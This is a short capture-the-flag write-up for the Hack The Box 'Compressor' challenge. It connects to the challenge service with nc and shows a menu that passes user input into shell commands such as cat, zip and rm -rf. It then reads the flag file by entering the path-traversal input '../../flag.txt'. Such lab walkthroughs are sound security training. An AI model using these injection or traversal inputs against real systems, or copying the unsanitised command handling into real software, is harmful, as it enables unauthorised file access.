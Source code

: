 # Compressor

> Ramona's obsession with modifications and the addition of artifacts to her body has slowed her down and made her fail and almost get killed in many missions. For this reason, she decided to hack a tiny robot under Golden Fang's ownership called "Compressor", which can reduce and increase the volume of any object to minimize/maximize it according to the needs of the mission. With this item, she will be able to carry any spare part she needs without adding extra weight to her back, making her fast. Can you help her take it and hack it?

---

Deployed Docker instance serves a custom TCP application.

```bash
$ nc -nv 178.62.83.221 32243
(UNKNOWN) [178.62.83.221] 32243 (?) open

[*] Directory to work in: O3um702R2eVupS9OJlVfiDBZQQd9sRDm

Component List:

+===============+
|               |
|  1. Head  🤖  |
|  2. Torso 🦴   |
|  3. Hands 💪  |
|  4. Legs  🦵   |
|               |
+===============+

[*] Choose component:
```

Choosing an arbitrary component results in the following menu options:

```bash
Actions:

1. Create artifact
2. List directory    (pwd; ls -la)
3. Read artifact     (cat ./<name>)
4. Compress artifact (zip <name>.zip <name> <options>)
5. Change directory  (cd <dirname>)
6. Clean directory   (rm -rf ./*)
7. Exit
```

Option #2, listing the current directory, indicates the program's current working directory is `/home/ctf/$RANDOM_STRING/$COMPONENT`.

Several of these appear to be vulnerable to command injection. For example, option #3 prompts the user for a `<name>` value and then executes `cat ./<name>`. Exploit this behavior to read `/home/ctf/flag.txt`.

```bash
Actions:

1. Create artifact
2. List directory    (pwd; ls -la)
3. Read artifact     (cat ./<name>)
4. Compress artifact (zip <name>.zip <name> <options>)
5. Change directory  (cd <dirname>)
6. Clean directory   (rm -rf ./*)
7. Exit

[*] Choose action: 3


Insert name you want to read: ../../flag.txt
HTB{...}
```
